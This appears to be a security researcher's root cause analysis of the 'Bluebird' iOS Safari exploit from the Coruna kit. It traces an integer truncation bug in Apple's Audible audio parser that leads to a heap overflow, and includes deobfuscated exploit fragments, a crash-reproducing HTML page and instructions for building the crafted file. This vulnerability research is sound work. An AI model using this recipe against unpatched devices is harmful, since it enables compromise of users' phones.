



# Bluebird's root cause analysis

Some time sago, google released a [blog post](https://cloud.google.com/blog/topics/threat-intelligence/coruna-powerful-ios-exploit-kit) about the Coruna exploit kit. It targets iOS 13 to 17.2.1 with no less than 23 exploits. 
There's a chain that's interesting to analyse, because only one of the exploits has a CVE.

| Type                      | Codename     | Targeted versions (inclusive) | Fixed version | CVE            |
| ------------------------- | ------------ | ----------------------------- | ------------- | -------------- |
| WebContent R/W            | `bluebird`   | 15.6 → 16.1.2                 | 16.2          | No CVE         |
| WebContent PAC bypass     | `breezy15`   | 15 → 16.2                     | ?             | No CVE         |
| WebContent sandbox escape | `IronLoader` | 16.0 → 16.3.116.4.0 (≤ A12)   | 15.7.8, 16.5  | CVE-2023-32409 |
| PE                        | `Gruber`     | 15.2 → 17.2.1                 | 16.7.6, 17.3  | No CVE (analyzed by [littlelailo](https://littlelailo.github.io/writeups/coruna.html#ref_35))         |
| PPL Bypass                | `Carbone`    | 15.0 → 16.7.6                 | 17.0          | No CVE         |


Since I have an iPhone Xr on iOS 16.0, this is a good opportunity for me to learn new things.
This blog post is my attempt at analysing the root cause of the vulnerability used by the Bluebird exploit.

> [!NOTE]
> All the exploits are obfuscated and the process to deobfuscate them is well documented so I won't repeat it here. Instead one can read [littlelailo's](https://littlelailo.github.io/writeups/coruna.html#ref_8) write-up about it.

> [!TIP]
> I'm always learning: if something is wrong, inaccurate or I could have done better, please reach out!

## Finding the vulnerability

Since Google's blog post does not describe anything apart from "WebContent", we'll need to find the vulnerability ourselves. I thought doing a "blind" diff on Safari might yield so many changes that it would be really hard to spot what might be a vulnerability or not. But since we have the exploit, we might as well start there to get a clue.

With the sample deobfuscated, I looked for what might be the entry point:

```js
return r.si = async function (t) {
    const i = BigInt("0x7FFFFFFFFF");

    function n(t) {
        return t & i
    }
    try {
        const i = await async function () {
            const i = {
                Ji: null,
                Li: null
            },
                r = new OfflineAudioContext(2, 44100, 44100),
                e = r.decodeAudioData.bind(r),
                o = [];
            r.decodeAudioData = async t => {
                const i = await e(t);
                return o.push(i), null
            };
            const s = 7000;
            // LOTS OF CODE
        }();
        P.zn.Xn = i
    } catch (t) {
        throw P.zn.Xn = void 0, t
    }
}, r;

```

`i` was the first function executed and the first thing it did was to instantiate an `OfflineAudioContext`, later calling `decodeAudioData` on it. This seemed like a good candidate as it looked like the exploit was manipulating the stream a lot and it would probably be processed by a fairly complicated parser.

Knowing that the vulnerability was patched in iOS 16.2, I downloaded a WebKit for iOS [16.1](https://github.com/apple-oss-distributions/WebKit/archive/WebKit-7614.2.9.0.10.tar.gz) and for iOS [16.2](https://github.com/apple-oss-distributions/WebKit/archive/WebKit-7614.3.7.0.6.tar.gz) and diffed whatever could contain "audio".

There were a few changes, but one really caught my eye:
```diff
index bd87e46..0503c3c 100644
--- a/.../WebKit-WebKit-7614.2.9.0.10/Source/WebCore/platform/audio/cocoa/AudioFileReaderCocoa.cpp
+++ b/.../WebKit-WebKit-7614.3.7.0.6/Source/WebCore/platform/audio/cocoa/AudioFileReaderCocoa.cpp
@@ -542,6 +542,12 @@ RefPtr<AudioBus> AudioFileReader::createBus(float sampleRate, bool mixToMono)
     if (!inFormat)
         return nullptr;

+    // Block loading of the Audible Audio codec.
+    // FIXME: convert this to a WebPreference deny-list of codecIDs
+    if (inFormat->mFormatID == kAudioFormatAudible
+        || inFormat->mFormatID == kCMAudioCodecType_AAC_AudibleProtected)
+        return nullptr;
+
     AudioStreamBasicDescription outFormat = clientDataFormat(*inFormat, sampleRate);
     size_t numberOfChannels = inFormat->mChannelsPerFrame;
     double fileSampleRate = inFormat->mSampleRate;
```

As the Google's blogpost mentioned a WebContent exploit, I was kinda expecting to see a codec parser with a few `if`s added. However, this is not how it works (at least on macOS/iOS). Looking at the code in that file, a lot of calls were made to `PAL` namespace, like `PAL::AudioFileOpenWithCallbacks`. If we search for this function in WebKit, we'll find this code in `AudioToolboxSoftLink.cpp`:

```cpp
SOFT_LINK_FUNCTION_FOR_SOURCE(PAL, AudioToolbox, AudioFileOpenWithCallbacks, OSStatus, (void *inClientData, AudioFile_ReadProc inReadFunc, AudioFile_WriteProc inWriteFunc, AudioFile_GetSizeProc inGetSizeFunc, AudioFile_SetSizeProc inSetSizeFunc, AudioFileTypeID inFileTypeHint, AudioFileID *outAudioFile), (inClientData, inReadFunc, inWriteFunc, inGetSizeFunc, inSetSizeFunc, inFileTypeHint, outAudioFile))
```

What this tells us is that the system library AudioToolbox is used instead of an "in-place" parser. In retrospect, it kinda makes sense: OSs will have well-maintained parsers anyway, so why create another one, that will also need to be maintained?

Anyhoo, the two keys `kAudioFormatAudible` and `kCMAudioCodecType_AAC_AudibleProtected` give us a direction. The exploit is probably targeting the Audible file format, 

Continuing to read the exploit code lead me to a few weird strings:

```js
[("HeaderSeed"), "0"],
[("EncryptedBlocks"), "0"],
[("HeaderKey"), ("0 0 0 0")],
[("CPUType"), "0"]
```

Looking for `HeaderSeed` confirmed that it was indeed Audible audio, in its ancient "aa" format, with the magic [1469084982 (0x57907536)](https://github.com/FFmpeg/FFmpeg/blob/master/libavformat/aadec.c#L36C18-L36C28). This magic also appears in the exploit:
```js
      const l = (49168),
        f = 1,
        w = 2,
        u = 3,
        g = 5,
        d = 6,
        b = 10,
        B = (1469084982), // AA audible magic here
        I = BigInt((904)),
        _ = BigInt((968)),
        m = BigInt(8),
        y = BigInt(12),
        U = BigInt(10),
        E = BigInt(24),
        k = new ArrayBuffer((16384)),
        v = new C;
```

So now, we know that a check to ensure that Audible codec cannot be used in WebAudio was added in WebKit for iOS 16.2. That's good, but I don't think this qualifies as a vulnerability, they are probably here to act as defense-in-depth. Reading a bit more the source of `AudioFileReaderCocoa.cpp` the code seemed to fall in a call to [AudioFileOpenWithCallbacks](https://github.com/WebKit/WebKit/blob/7f45f505dc7e58f399b2303ec8080bc6f9c55753/Source/WebCore/platform/audio/cocoa/AudioFileReaderCocoa.cpp#L156C14-L156C40), implemented in the AudioToolbox library. This library is part of the dyld shared cache (DSC). Using [ipsw](https://blacktop.github.io/ipsw) I downloaded both iOS 16.1.2 and 16.2 IPSWs to perform the diff. However, after having extracted the lib in IDA, I could not find the "HeaderSeed" string, which was pretty odd. Using `ipsw` again, I found that it was in AudioToolboxCore instead.

```
ipsw dyld str dsc-16.1.2/20B110__iPhone14,7/dyld_shared_cache_arm64e "HeaderSeed"
   • Searching for strings: HeaderSeed
0x1922b093f: "HeaderSeed"       image=AudioToolboxCore
```

I chose to use [Diaphora](https://github.com/joxeankoret/diaphora) to do the diff and after looking at a few functions, I stumbled upon `AudibleAudioFile::OpenFromDataSource` which added two new basic blocks that looked like a `if` was added.



Zooming a bit, it appears that two checks were added:

1. a `TBNZ W8, #31`
2. `ADDS` followed by `B.CS` 

Those two checks used together validate that the value read from the stream is not negative and that the addition of that value in the accumulator does not produce a carry. If any of the two conditions happens, the parsing terminates and the stream is rejected. This more or less translates to the following C code:

```c
  int64_t value = (int64_t)stored_i16_value;

  if (value < 0) goto failure;
  if (accumulated > UINT64_MAX - (uint64_t)value) goto failure;

  accumulated += (uint64_t)value;
```



## The AA audible file format

In this chapter I'll try to explain just enough of this file format to understand the vulnerability. There are not so many resources online about it, however, I still found a few interesting things. I linked the FFmpeg implementation, which already gives some information but I also found [audible](https://github.com/SethCalkins/audible), and [inAudible-NG](https://github.com/inAudible-NG/) which both give some other details. This will help us "kickstart" the analysis.

I'll be giving the structure with [ImHex](https://github.com/WerWolv/ImHex/) patterns. From reading the different source codes, we know the format is big endian and we can begin with the following:

```
const u32 AA_MAGIC = 0x57907536;

struct TOCEntry {
    u32 id;
    u32 offset;
    u32 size;
};

struct AudibleAA {
    u32 file_size;
    u32 magic;
    u32 entries_count;
    u32 header_unknown;

    TOCEntry toc[entries_count];
};
```

After this, 24 bytes are skipped and a "dictionary" follows. Given how FFmpeg's code works, this is probably almost always true, even though, in practice, this is not necessarily the case and it depends on the TOC entries, which act as a "directory". Looking at `AudibleAudioFile::OpenFromDataSource` we quickly deduce a few more things:

- `TOCEntry.id` are called "sections"
- In the 24 bytes that are skipped, the magic is repeated and the first two bytes correspond to what I believe is the version of the format

Following those 24 bytes, we can find `Section 2`, which is a KV dictionary

```
struct MetadataEntry {
    u8 ukn;
    u32 key_length;
    u32 value_length;
    char key[key_length];
    u8 value[value_length];
};

struct Section2 {
    u32 count;
    MetadataEntry entries[count];
};
```

I guess you can put arbitrary information in there, but there should be the codec, title, HeaderSeed, HeaderKey, and probably others. However, it is not interesting (yet at least) for the purpose of this exercise, so I did not look into that too much.
After this, FFmpeg and inAudible-NG both do a "weird" loop to detect where the "chapters" of the book are situated. This loop probably works well in practice, however, looking at AudioToolboxCore, I found that the chapters are described in two different sections:

- Section 6 will give metadata about the different chapters like: the count, their codecs, their size (in bytes, not time) and what I named "block" count
- Section 10, which is the actual content (and what is found by the "weird loop") of the chapters named "block" here

```
struct TrailingPair {
    u32 _1;
    u32 _2;
};

struct ChapterRecord {
    u32 block_count;

    u32 unknown_1;
    u32 unknown_2;
    u32 blocks_bytes;
    u32 unknown_3;
    u16 codec;
    u32 unknown_4;

    TrailingPair trailing_pairs[unknown_4];
};

struct Section6 {
    u32 chapter_count;
    ChapterRecord chapters[chapter_count];
};

struct BlockRecord<auto End> {
    u32 size;
    u32 offset;

    u8 data[size];
};

struct Section10<auto End> {
    BlockRecord<End> blocks[while($ + 8 <= End)];
    if ($ < End) {
        u8 trailing_bytes[End - $];
    }
};
```

Okay, I think this is enough for now to get a good understanding of the root cause of the vulnerability.


## Root Cause Analysis

Now that we know a bit about the file format, understanding the root cause will be easier.

For context, the vulnerability happens while parsing Section 6, that we already know is the sections describing the different chapters.

Here is the first batch of instructions that we're interested in:

```
1921828B8 1D0                 STRH            W8, [X9,X25]
...
192182924 1D0                 LDRSH           X27, [X9,X25]
...
19218293C 1D0                 ADD             X24, X24, X27
```

First, a 32-bit unsigned integer is read from the file. However, it is stored as a 16-bit integer inside a structure (the `STRH`). It is later loaded and extended to a 64-bit signed integer (the `LDRSH`) before being added to an unsigned 64-bit accumulator (the `ADD`).

This roughly translates to the following C-like pseudocode:

```c
struct ChapterRecord {
    int16_t block_count;
    BlockRecord* block_ptr;
    // ...
};

uint64_t total_blocks = 0;
for (int idx = 0; idx < chapter_count; idx++) {
    uint32_t block_count = 0;
    IAAReadULong(stream, &block_count);
    chapters[idx].block_count = (int16_t)block_count;

    // some code

    // the weird line, where we load a signed but add to an unsigned accumulator
    total_blocks += (int64_t)chapters[idx].block_count;
}
```

At the end of the loop, the `total_blocks` value is multiplied by `0x10` (the size of a `BlockRecord` structure in memory) and used to allocate a buffer that will then be used to parse Section 10 of the file. 

```c
struct BlockRecord {
    uint64_t data_offset;
    uint64_t data_size;
};

#define BLOCK_SIZE 0x10
BlockRecord* records = malloc(total_blocks * BLOCK_SIZE);
BlockRecord* cursor = records;

for (int idx = 0; idx < chapter_count; idx++) {
    chapters[idx].block_ptr = cursor;
    cursor += chapters[idx].block_count;
}

// Chapter 0 reads exactly block_count descriptors from Section 10.
for (int block_idx = 0; block_idx < chapters[0].block_count; block_idx++) {
    BlockRecord *record = &chapters[0].block_ptr[block_idx];
    IAAReadULong(stream, &record->data_size);
    IAAReadULong(stream, &record->data_offset);
    if (stream->current_position != record->data_offset)
        goto failure;
    OAAFileSetCurrentPos(stream, stream->current_position + record->data_size);
}

// Later chapters use a special path. In simplified form, it writes an
// initial derived offset, reads at most block_count - 1 ordinary descriptors,
// then synthesizes the final descriptor from the preceding descriptor and
// the chapter's declared byte length.
for (int chapter_idx = 1; chapter_idx < chapter_count; chapter_idx++) {
    ChapterRecord *chapter = &chapters[chapter_idx];
    chapter->block_ptr[0].data_offset = derived_chapter_start;

    int ordinary_count = chapter->block_count - 1;
    for (int block_idx = 0; block_idx < ordinary_count; block_idx++) {
        // Same Section 10 reads and offset check as above.
    }

    BlockRecord *last = &chapter->block_ptr[max(ordinary_count, 0)];
    last->data_offset = derived_from_previous_descriptor;
    last->data_size = chapter->blocks_bytes;
}
```

The parser validates that each declared offset matches the current stream position, but it does not verify that the destination lies inside the allocated array. The validation occurs after the fields have already been written and therefore cannot prevent the heap overflow.

Let's take an example to understand the vulnerability better. For a file with two chapters with `2` and `0x0000ffff` blocks respectively:

1. after the first iteration, `total_blocks = 2`, 
2. then after the second iteration, `total_blocks = 1` because `0x0000ffff` becomes `-1` after truncation and signed extension. The total allocation size is `1 * 0x10 = 16` bytes,
3. the program allocates space for *one block*,
4. when processing the first chapter (index 0), the data for the second block is written out of bounds,
5. the negative count makes chapter one's ordinary Section 10 loop empty, but the later-chapter path still synthesizes a final descriptor at index 2. In total, the parser touches three descriptors while having allocated one.



The diagram shows the two file-derived writes from chapter zero. A third step, not drawn there to keep the heap layout readable, follows: chapter one's negative count skips its ordinary loop, but its special final-descriptor path writes descriptor index 2, another `0x10` bytes farther into the following heap region.

This effectively transforms the integer truncation and signedness bug into a heap buffer overflow vulnerability.

## Reproduction

To produce a crash, we can create an audible file that will write out of bounds and a small Safari code that will pass the file to `decodeAudioData`:

```html
<!doctype html>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width,initial-scale=1">
<title>Minimal AA reproducer</title>
<pre id="status">starting…</pre>
<script>
(async () => {
  const status = document.querySelector('#status');
  const file = 'bad-1010.aa';
  status.textContent = `fetching ${file}`;

  const response = await fetch(file, { cache: 'no-store' });
  if (!response.ok) throw new Error(`HTTP ${response.status}`);
  const data = await response.arrayBuffer();

  status.textContent = `decoding ${file}`;
  const OfflineContext = window.OfflineAudioContext;
  const context = new OfflineContext(2, 44100, 44100);

  try {
    await context.decodeAudioData(data);
    status.textContent = 'decode unexpectedly worked';
  } catch (error) {
    status.textContent = `decode rejected without crashing: ${error}`;
  }
})().catch(error => {
  document.querySelector('#status').textContent = `setup failed: ${error}`;
});
</script>
```

The maths to create a working PoC is not so hard (since we don't have to punch holes or whatever yet):

- choose the allocation size we want, let's say 0x1010 (like that, we can use LLDB conditional breakpoint to easily spot our allocation)
- knowing that each "block" descriptor is 0x10 bytes, `0x1010 / 0x10 = 257` blocks must be allocated

So an example file could be

- `512` blocks for the first chapter
- `-255` (`0x0000ff01` in the file) blocks for the second chapter

All 512 blocks of the first chapter are processed, covering descriptor indices 0 through 511. The negative second chapter skips its ordinary block loop, but its special final-descriptor path still synthesizes descriptor 512. The complete write extent is therefore `513 * 0x10 = 0x2010` bytes, or `0x1000` bytes beyond the requested `0x1010` array.

> [!NOTE]
> On the tested device, `malloc` rounds the `0x1010` allocation up to `0x1200`, so `0xe10` of the `0x1000`-byte logical overflow extends beyond the observed heap chunk. This happens because our allocation will be done in the small region, which allocates by "quantums" of 512 bytes. So `ceil(0x1010 / 512) = 9; 9 * 512 = 0x1200`.

Now that we know the maths, we're still missing some information: we cannot just create a file with two chapters, it will not be accepted by the parser.
If we want to reach the integer truncation bug and the heap overflow, we need to add a few sections required by AudioToolboxCore to our file:

- Section 0: offset must be 0 and size must be the size of the file
- Section 1: 24 bytes of data about the file
- Section 3: 74 bytes of mostly unidentified data, except the first two bytes which represent the codec
- Section 5: 4 bytes of unidentified data
- Section 6, 10, already explained
- the original exploit also uses Section 2, which was also already explained but optional for this PoC

On the tested iOS 16.0 device, one execution with the [bad](./bad-1010.aa) file created the following crash (the crash site is highly dependent on the heap layout, obviously, and will generate different crashes on different executions):

```
Process 2314 resuming
Process 2314 stopped
* thread #19, name = 'Audio Decoder', stop reason = signal SIGABRT
    frame #0: 0x000000020c856200 libsystem_kernel.dylib`__pthread_kill + 8
libsystem_kernel.dylib`__pthread_kill:
->  0x20c856200 <+8>:  b.lo   0x20c856220    ; <+40>
    0x20c856204 <+12>: pacibsp
    0x20c856208 <+16>: stp    x29, x30, [sp, #-0x10]!
    0x20c85620c <+20>: mov    x29, sp
Target 0: (com.apple.WebKit.WebContent) stopped.
(lldb) bt
* thread #19, name = 'Audio Decoder', stop reason = signal SIGABRT
  * frame #0: 0x000000020c856200 libsystem_kernel.dylib`__pthread_kill + 8
    frame #1: 0x000000021ca931ac libsystem_pthread.dylib`pthread_kill + 268
    frame #2: 0x00000001d764dca0 libsystem_c.dylib`abort + 180
    frame #3: 0x00000001de372548 libsystem_malloc.dylib`malloc_vreport + 552
    frame #4: 0x00000001de3727e0 libsystem_malloc.dylib`malloc_zone_error + 100
    frame #5: 0x00000001de368cc4 libsystem_malloc.dylib`free_list_checksum_botch + 40
    frame #6: 0x00000001de35c05c libsystem_malloc.dylib`small_free_list_remove_ptr_no_clear + 1148
    frame #7: 0x00000001de3594e0 libsystem_malloc.dylib`small_malloc_from_free_list + 344
    frame #8: 0x00000001de356f3c libsystem_malloc.dylib`small_malloc_should_clear + 220
    frame #9: 0x00000001de35b9b0 libsystem_malloc.dylib`szone_malloc_should_clear + 120
    frame #10: 0x00000001de35a890 libsystem_malloc.dylib`_malloc_zone_malloc + 156
    frame #11: 0x00000001db3b0a84 AudioToolboxCore`AudibleAudioFile::OpenFromDataSource() + 4988
    frame #12: 0x00000001db39b6c4 AudioToolboxCore`AudioFileOpenWithCallbacks + 280
    frame #13: 0x00000001e1c81908 WebCore`WebCore::AudioFileReader::AudioFileReader(void const*, unsigned long) + 1416
    frame #14: 0x00000001e1c83750 WebCore`WebCore::createBusFromInMemoryAudioFile(void const*, unsigned long, bool, float) + 60
    frame #15: 0x00000001e0ef7ee4 WebCore`WTF::Detail::CallableWrapper<WebCore::AsyncAudioDecoder::AsyncAudioDecoder()::$_17, void>::call() + 252
    frame #16: 0x00000001e34d0f78 JavaScriptCore`WTF::Thread::entryPoint(WTF::Thread::NewThreadContext*) + 352
    frame #17: 0x00000001e34d31fc JavaScriptCore`WTF::wtfThreadEntryPoint(void*) + 16
    frame #18: 0x000000021ca8d6cc libsystem_pthread.dylib`_pthread_start + 148
```

In another run without a debugger attached, the same file produced a [different](./bad-1010.ips) crash. In this crash, `x8 = 0x136e`, the data offset stored in the descriptor at block index 118, appears where ConverterRegistry expects an object pointer. It consequently attempted to dereference `x8 + 8`, producing the fault address `0x1376`.
